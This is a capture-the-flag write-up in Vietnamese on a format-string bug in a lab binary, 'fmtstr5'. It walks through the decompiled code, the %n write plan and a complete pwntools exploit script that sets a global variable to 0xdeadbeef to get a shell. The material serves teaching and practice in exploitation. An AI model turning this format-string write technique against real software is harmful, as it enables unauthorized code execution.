



**1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
fmtstr5: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=df42b94f443d448c45da82770977f227d783cf07, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, 0, 0x50uLL);
  printf("Your format string: ");
  fgets(s, 80, stdin);
  printf(s);
  if ( check )
    puts("Yeah that's right, keep going!");
  if ( check == 0xdeadbeef )
  {
    puts("Congrats! Here is your prize!");
    system("/bin/sh");
  }
  if ( !check )
    puts("Let's try again!");
  return 0;
}
```

- Khởi tạo giá trị của biến v5 bằng cách đọc giá trị của thanh ghi fs tại offset 0x28.
- Gọi hàm init với các tham số argc, argv và envp.
- Sử dụng hàm memset để thiết lập tất cả các byte trong mảng s thành giá trị 0.
- Sử dụng hàm printf để in ra chuỗi "Your format string: ".
- Sử dụng hàm fgets để đọc chuỗi vào biến s.
- Sử dụng hàm printf để in ra nội dung của chuỗi s. Ở đây có lỗi format string
- Kiểm tra giá trị của biến check. Nếu check không bằng 0, in ra chuỗi "Yeah that's right, keep going!".
- Kiểm tra giá trị của biến check. Nếu check bằng 0xdeadbeef, in ra chuỗi "Congrats! Here is your prize!" và thực thi lệnh hệ thống "/bin/sh".
Kiểm tra giá trị của biến check. Nếu check bằng 0, in ra chuỗi "Let's try again!".
- Trả về giá trị 0 từ hàm main.

**2. Ý tưởng**

Sử dụng %n để ghi 0xdeadbeef byte vào địa chỉ của biến check trên stack

**3. Khai thác**

```
pwndbg> p &check
$1 = (<data variable, no debug info> *) 0x404090 <check>
```

Ta có địa chỉ biến check là ```0x404090```.

Đặt breakpoint trước lệnh ```printf``` xem có địa chỉ check trên stack không.



Không tìm thấy được địa chỉ biến check trên stack nên đưa nó lên bằng cách nhập vào chuỗi s. Sau đó kiểm tra thử:



Như vậy biến check đã được đưa lên stack. Tiếp theo sẽ in 0xdeadbeef byte trước biến check và sử dụng %n để đưa đúng số byte cần thiết cho biến check. Chọn dư dả 0x40 byte để lưu chuỗi trước đó. Mà 0x40 ở vị trí 9 trên stack tức nhập ```%14$n``` sẽ ghi dữ liệu vào check được. Kiểm tra thử:

```
payload = f'%{0xdeadbeef}c%14$n'.encode()
payload = payload.ljust(0x40, b'a')
payload += p64(check)
```


Chương trình đã bị lỗi có vẻ do byte quá to nên sẽ nhập trước 2 byte 0xbeef ở địa chỉ check. Sau đó nhập 0xdead - 0xbeef byte ở địa chỉ check + 2.

```
payload = f'%{0xbeef}c%14$n'.encode()
payload += f'%{0xdead - 0xbeef}c%15$n'.encode()
payload = payload.ljust(0x40, b'a')
payload += p64(check)
payload += p64(check + 2)
```

Ta có script như sau:

```
from pwn import *

exe = ELF('fmtstr5', checksec = False)
r = process(exe.path)

check = 0x404090

payload = f'%{0xbeef}c%14$n'.encode()
payload += f'%{0xdead - 0xbeef}c%15$n'.encode()
payload = payload.ljust(0x40, b'a')
payload += p64(check)
payload += p64(check + 2)
#input()
r.sendlineafter(b'string: ', payload)
r.interactive()
```

**4. Lấy flag**


